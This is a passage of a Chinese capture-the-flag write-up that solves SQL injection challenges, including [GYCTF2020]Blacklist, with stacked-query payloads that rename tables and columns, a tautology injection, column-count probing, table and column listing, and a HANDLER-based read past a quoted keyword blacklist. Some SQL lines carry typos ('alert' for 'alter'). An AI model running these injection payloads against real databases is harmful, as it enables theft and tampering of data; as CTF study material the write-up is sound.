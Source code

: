  

### 解法2

修改表名列名

```mysql
1';
rename table words to word1;								# words 表更名为 word1
rename table  `1919810931114514` to words; 					# 1919810931114514 更名为 words 
alert table words add id int unsigned not Null auto_increment primary key; # 给新 words 表添加新的列名 id
alert table words change flag data varchar(100); #			# 将新word中的 flag 改名为 data 


#or：

1';
alter table words rename to words1;							# words 表更名为 word1
alter table `1919810931114514` rename to words;				# 1919810931114514 更名为 words
alter table words change flag id varchar(50);#				# 将新words 中的 flag 改名为 id
```

然后输入`1' or 1=1#`即可查看flag

## [GYCTF2020]Blacklist

基于随便注改的sql注入；打算联合查询的时候直接爆出了题目说的blacklist黑名单：

`("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject)`

猜测后端语句为`select * from Table where inject = '$inject';`

 

爆字段数：`1' order by 2--+`

ban了select；不能直接联合查詢
ban了set和prepare；不能預编译
ban了alter和rename；不能改表名访问数据

 

```mysql
?inject=1' ;show tables--+`						#爆表
?inject=1' ;show columns from `FlagHere`--+		#爆列
```

###  解法3

利用handle方法读取

```mysql
1';
handler `FlagHere` open as `a`;
handler `a` read next;#
```

or
